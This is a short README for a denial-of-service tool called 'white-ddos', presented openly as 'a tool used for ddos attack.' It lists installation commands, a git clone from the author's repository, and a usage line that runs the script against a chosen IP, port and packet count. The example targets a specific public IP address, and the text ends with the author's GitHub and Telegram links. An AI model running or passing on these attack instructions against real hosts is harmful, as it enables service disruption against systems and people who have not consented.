 # white-ddos
This is a tool used for ddos attack.

commands
_______________
	$ apt update -y && apt upgrade -y
	$ pkg install git
	$ pkg install figlet
	$ pkg install python2
	$ git clone https://github.com/WH1T3-E4GL3/white-ddos.git
	$ cd white-ddos
	$ python2 white-ddos.py <IP> <PORT> <PACKETS>
 
example : python2 white-ddos.py 104.27.190.77 8080 100  
	
	  Target IP : 104.27.190.77 
	  Port      : 8080
	  Packet    : 100  

Tool used for ddos attack.
Tool devoloped by white eagle.

Github   : https://github.com/WH1T3-E4GL3
Telegram : https://t.me/Ka_KsHi_HaTaKe
